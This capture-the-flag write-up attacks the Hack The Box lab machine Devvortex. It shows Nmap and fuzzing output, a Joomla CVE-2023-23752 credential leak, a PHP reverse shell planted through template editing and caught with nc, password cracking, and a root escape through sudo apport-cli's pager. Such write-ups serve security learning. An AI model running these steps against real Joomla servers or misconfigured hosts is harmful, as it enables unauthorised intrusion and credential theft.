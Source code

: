 # HTB - Devvortex

#### Ip: 10.10.11.242
#### Name: Devvortex
#### Rating: Easy

----------------------------------------------------------------------

![Devvortex.png](../assets/devvortex_assets/Devvortex.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.242
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-06 12:44 CST
Warning: 10.10.11.242 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.242
Host is up (0.075s latency).
Not shown: 65463 closed tcp ports (reset), 70 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```
Lets add http://devvortex.htb to `/etc/hosts`

Checking out the site we find a page offering developer services:

devvortex_site.png

After not finding much during directory fuzzing, I scanned for vhosts and found dev.devvortex.htb, which I also added to `/etc/hosts`. 

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" --hh 154
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.242/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                     
=====================================================================

000000022:   502        7 L      12 W       166 Ch      "dev" 
```

Looking for directories we find an /administrator directory:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ dirsearch -u http://dev.devvortex.htb

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/ryan/HTB/Devvortex/reports/http_dev.devvortex.htb/_24-03-06_13-27-57.txt

Target: http://dev.devvortex.htb/

[13:27:57] Starting: 
[13:28:09] 403 -  564B  - /%2e%2e;/test
[13:28:17] 403 -  564B  - /admin/.config
[13:28:21] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
```

Heading to this directory we see the site is running Joomla:

devvortex_admin.png

Looking for Joola exploit I find this information disclosure vulnerability: https://github.com/Acceis/exploit-CVE-2023-23752

### Exploitation

I can run the script and retrieve the usernames logan and lewis as well as a password for lewis:
```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ ruby joomla_disclosure.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

I am able to use Lewis' credentials to login to the Joomla site.

devvortex_login.png

Because we have administrator access, we should have an easy time getting remote code execution from here. Lets go to System > Templates > Administrator Templates > index.php and overwrite the file with PentestMonkey's php-reverse-shell.php. Now when we refresh the page and navigate back to the site, we catch a shell as www-data:

```
┌──(ryan㉿kali)-[~/HTB/Devvortex]
└─$ nc -lnvp 443                 
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.242] 41584
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 17:00:23 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
devvortex
```

Trying to grab the flag in Logan's home folder we get a permission denied:

```
www-data@devvortex:/home/logan$ cat user.txt
cat: user.txt: Permission denied
```

However the credentials we discovered earlier were actually to the joomla mysql DB, so lets login on the target and see if we can discover any other credentials:

devvortex_logan_hash.png

Nice, looks like we've found a hash for user logan. Lets try cracking it:

devvortex_john.png

John was able to crack the bcrypt hash for us: `logan:tequieromucho`

We can now `su logan` and grab the user.txt flag:

```
www-data@devvortex:/home/logan$ su logan
Password: 
logan@devvortex:~$ whoami
logan
```

devvortex_user.png

### Privilege Escalation

Running `sudo -l` to see if I can run anyhting with elevated permissions I find:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

This is interesting. Looking for exploits I find if the program is using the `less` command, I can drop into a root shell.

First we run:
```
sudo /usr/bin/apport-cli --file-bug
```

Then select 1, and then 2. You will be prompted to input any key.

Next we can select `V` which will open up a terminal as root. from there we can declare `!/bin/bash` and drop into a root shell.

We can now grab the final flag:

devvortext_root.png

Thanks for following along!

-Ryan

-------------------------------------------
